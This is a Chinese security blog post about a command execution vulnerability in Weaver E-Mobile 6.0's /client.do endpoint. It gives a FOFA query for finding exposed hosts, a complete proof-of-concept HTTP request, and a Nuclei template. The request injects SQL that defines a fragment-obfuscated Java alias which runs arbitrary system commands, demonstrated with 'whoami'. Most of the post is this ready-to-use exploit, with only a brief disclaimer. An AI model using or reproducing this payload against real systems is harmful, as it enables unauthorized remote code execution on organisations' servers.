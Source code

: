 #  泛微E-Mobile 6.0 client.do 命令执行漏洞   
lcyunkong  云途安全   2024-04-26 12:00  
  
**0x00 阅读须知**  
  
****  
**免责声明：****本文提供的信息和方法仅供网络安全专业人员用于教学和研究目的，不得用于任何非法活动。读者若使用文章内容从事任何未授权的行为，需自行承担所有法律责任和后果。本公众号及作者对由此引起的任何直接或间接损失不负责任。请严格遵守相关法律法规。**  
###   
### 0x01 漏洞简介  
  
  
泛微e-Mobile移动管理平台是一款由泛微软件开发的企业移动办公解决方案。它提供了一系列功能和工具，使企业员工能够通过移动设备随时随地进行办公和协作。这个系统在6.0版本/client.do中被发现存在命令执行漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSZzS5EcMIjF55tqUdKvp9jIg98ibRibo1PhYZj4Y8o1HhytYLYo2ISqVSPzghOO6fNL5iaibebibvFpE4A/640?wx_fmt=png&from=appmsg "")  
###   
### 0x02 漏洞详情  
  
****  
**fofa：****app="泛微-EMobile"**  
  
****  
**Poc：**  
```
POST /client.do HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTm8YXcJeyKDClbU7

------WebKitFormBoundaryTm8YXcJeyKDClbU7
Content-Disposition: form-data; name="method"
 
getupload
------WebKitFormBoundaryTm8YXcJeyKDClbU7
Content-Disposition: form-data; name="uploadID"
 
1';CREATE ALIAS if not exists MzSNqKsZTagmf AS CONCAT('void e(String cmd) throws java.la','ng.Exception{','Object curren','tRequest = Thre','ad.currentT','hread().getConte','xtClass','Loader().loadC','lass("com.caucho.server.dispatch.ServletInvocation").getMet','hod("getContextRequest").inv','oke(null);java.la','ng.reflect.Field _responseF = currentRequest.getCl','ass().getSuperc','lass().getDeclar','edField("_response");_responseF.setAcce','ssible(true);Object response = _responseF.get(currentRequest);java.la','ng.reflect.Method getWriterM = response.getCl','ass().getMethod("getWriter");java.i','o.Writer writer = (java.i','o.Writer)getWriterM.inv','oke(response);java.ut','il.Scan','ner scan','ner = (new java.util.Scann','er(Runt','ime.getRunt','ime().ex','ec(cmd).getInput','Stream())).useDelimiter("\\A");writer.write(scan','ner.hasNext()?sca','nner.next():"");}');CALL MzSNqKsZTagmf('whoami');--
------WebKitFormBoundaryTm8YXcJeyKDClbU7--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSZzS5EcMIjF55tqUdKvp9jIgQrGp6eZDE9gbmaZiateaT0PfPhYxz5eDYx9BRSKwPSaGJTWqTgicWjQ/640?wx_fmt=png&from=appmsg "")  
  
**0x03 Nuclie**  
  
```
id: weaver_e_mobile-client-rce

info:
  name: weaver_e_mobile-client-rce
  author: unknown
  severity: high
  description: 泛微E-Mobile 6.0 client.do存在命令执行漏洞
  tags: weaver_e_mobile,sqli

http:
  - raw:
      - |+
        POST /client.do HTTP/1.1
        Host: 
        Accept-Encoding: gzip, deflate
        Accept: */*
        Accept-Language: en
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
        Connection: close
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTm8YXcJeyKDClbU7
        
        ------WebKitFormBoundaryTm8YXcJeyKDClbU7
        Content-Disposition: form-data; name="method"
         
        getupload
        ------WebKitFormBoundaryTm8YXcJeyKDClbU7
        Content-Disposition: form-data; name="uploadID"
         
        1';CREATE ALIAS if not exists MzSNqKsZTagmf AS CONCAT('void e(String cmd) throws java.la','ng.Exception{','Object curren','tRequest = Thre','ad.currentT','hread().getConte','xtClass','Loader().loadC','lass("com.caucho.server.dispatch.ServletInvocation").getMet','hod("getContextRequest").inv','oke(null);java.la','ng.reflect.Field _responseF = currentRequest.getCl','ass().getSuperc','lass().getDeclar','edField("_response");_responseF.setAcce','ssible(true);Object response = _responseF.get(currentRequest);java.la','ng.reflect.Method getWriterM = response.getCl','ass().getMethod("getWriter");java.i','o.Writer writer = (java.i','o.Writer)getWriterM.inv','oke(response);java.ut','il.Scan','ner scan','ner = (new java.util.Scann','er(Runt','ime.getRunt','ime().ex','ec(cmd).getInput','Stream())).useDelimiter("\\A");writer.write(scan','ner.hasNext()?sca','nner.next():"");}');CALL MzSNqKsZTagmf('whoami');--
        ------WebKitFormBoundaryTm8YXcJeyKDClbU7--


    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - nt authority\system
      - type: status
        status:
          - 200
```  
  
  
  
  
  
  
